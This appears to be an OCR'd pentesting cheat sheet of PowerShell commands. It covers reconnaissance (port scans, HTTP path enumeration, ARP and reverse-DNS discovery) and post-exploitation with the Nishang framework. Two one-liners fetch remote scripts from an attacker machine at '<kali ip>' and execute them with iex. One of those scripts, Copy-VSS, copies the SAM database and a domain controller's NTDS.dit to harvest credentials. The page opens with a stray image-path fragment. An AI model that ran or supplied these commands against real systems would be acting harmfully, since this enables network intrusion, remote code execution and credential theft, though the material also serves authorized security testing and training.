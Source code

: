 ### Output to .gnmap = NMAP format
```powershell
Invoke-Portscan -HostFile ips.txt -oG port_scan.gnmap -f -ports "1-81"
```

### For enumerating Files

Get-HttpStatus
```powershell
Get-HttpStatus -Target 192.168.13.62 -Path dictionary.txt -Port 80 | ? {$_.Status -match "ok"}
```

### Host Discovery with Posh-SecMod framework
Invoke-ARPScan = https://github.com/darkoperator/Posh-SecMod

it may generate fewer alerts than your usual SYN or TCP scan
```powershell
Invoke-ARPScan -CIDR 192.168.13.1/24
```

Get-Command -Module Posh-SecMod
// to view the available options

### DNS related
```powershell
Invoke-ReverseDnsLookup -CIDR 192.168.13.0/24
Get-Help Resolve-HostRecord -Examples
Get-Help Resolve-DNSRecord -Examples
```


## Post-Exploitation with PowerShell

post-exploitation framework Nishang = https://github.com/samratashok/nishang

// as always, download the framework and host with a web server


- Nishang


### Copy-VSS module
will attempt to copy the SAM database using VSS service, and if run on a domain controller, will try and copy the NTDS.dit and contents of the system registry hive.

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Copy-VSS.ps1"); Copy-VSS
```

### Get-Information
get a lot of system information

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Get-Information.ps1"); Get-Information
```
